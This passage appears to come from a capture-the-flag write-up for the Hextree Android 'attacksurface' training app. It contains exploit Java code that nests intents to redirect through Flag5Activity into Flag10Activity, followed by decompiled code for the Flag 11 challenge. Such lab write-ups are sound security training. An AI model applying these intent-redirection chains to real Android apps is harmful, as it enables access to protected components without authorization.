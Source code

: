 ```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag10Activity"));  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```

### Flag 11
#### Code analysis
```java
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent to\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            try {
                startActivityForResult(intent, 42);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        if (intent != null && intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }
        super.onActivityResult(i, i2, intent);
    }
```
